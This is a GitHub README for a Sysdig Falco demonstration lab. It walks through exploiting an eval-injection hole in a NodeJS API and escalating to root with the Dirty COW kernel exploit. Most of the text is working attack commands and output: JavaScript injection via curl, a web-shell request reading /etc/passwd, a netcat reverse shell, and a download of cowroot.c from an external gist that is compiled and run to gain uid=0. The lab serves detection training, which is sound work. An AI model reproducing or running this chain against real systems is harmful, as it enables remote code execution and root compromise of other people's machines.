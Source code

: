 # falco-demo
This builds an scenario for showing Sysdig Falco, exploiting incorrect input passed to eval in NodeJS and the dirtyc0w to get root access. You can use this Vagrant image https://atlas.hashicorp.com/bencer/boxes/dirtycow.

run the scenario:
```
vagrant init bencer/dirtycow
vagrant up
vagrant ssh
cd /vagrant/nodejs/bad-rest-api
docker-compose up
```

discover vulnerability:

`curl -X POST --data year="2016" http://localhost:8080/api/days-from-year/`

`curl -X POST --data year="res.write('foobar')" http://localhost:8080/api/days-from-year/`

try1 (not working, new listening ports not exposed):

`curl -X POST --data "@shell.js" http://localhost:8080/api/days-from-year/`

`curl "http://localhost:8000/?cmd=cat%20/etc/passwd"`

try2:

`nc -lvp 9999`

`curl -X POST --data "@rshell.js" http://localhost:8080/api/days-from-year/`

```
Listening on [0.0.0.0] (family 0, port 9999)
Connection from [172.18.0.3] port 9999 [tcp/*] accepted (family 2, sport 43398)
id
uid=999(node) gid=999(node) groups=999(node)
pwd
/home/node
curl https://gist.githubusercontent.com/joshuaskorich/86c90e12436c873e4a06bd64b461cc43/raw/71db45f5b97c8e4ed00f1193e578a77f90dabbdd/cowroot.c > cowroot.c
gcc cowroot.c -o cowroot -pthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:107:17: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast
         lseek(f,map,SEEK_SET);
                 ^
In file included from cowroot.c:27:0:
/usr/include/unistd.h:334:16: note: expected '__off_t' but argument is of type 'void *'
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^
./cowroot
/bin/sh: 1: cannot create /proc/sys/vm/dirty_writeback_centisecs: Read-only file system
id
uid=0(root) gid=999(node) groups=999(node)
```

note: for increased stability run this in the VM before running the exploit, Docker mounts /proc/sys in ro so the exploit tends to freeze the VM.

```
sudo -s
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```


